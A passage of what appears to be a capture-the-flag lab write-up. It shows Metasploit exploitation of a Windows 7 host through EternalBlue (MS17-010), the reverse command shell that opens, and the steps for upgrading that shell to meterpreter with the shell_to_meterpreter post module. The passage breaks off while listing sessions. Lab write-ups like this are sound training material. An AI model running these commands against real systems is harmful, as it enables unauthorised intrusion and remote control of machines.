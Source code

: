     [*] Command shell session 1 opened (10.11.25.205:4444 -> 10.10.135.235:49234) at 2021-01-09 06:45:47 -0500
    [+] 10.10.135.235:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.135.235:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.135.235:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>
    ```

## Escalate
- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

    Matching Modules
    ================

    #  Name                                    Disclosure Date  Rank    Check  Description
    -  ----                                    ---------------  ----    -----  -----------
    0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade
    ```

- Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
    msf6 post(multi/manage/shell_to_meterpreter) > options 

    Module options (post/multi/manage/shell_to_meterpreter):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
    LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
    LPORT    4433             yes       Port for payload to connect to.
    SESSION                   yes       The session to run this module on.
    ```

- Set the required option, you may need to list all of the sessions to find your target here. 
    ```bash
    msf6 post(multi/manage/shell_to_meterpreter) > sessions 

    Active sessions
    ===============
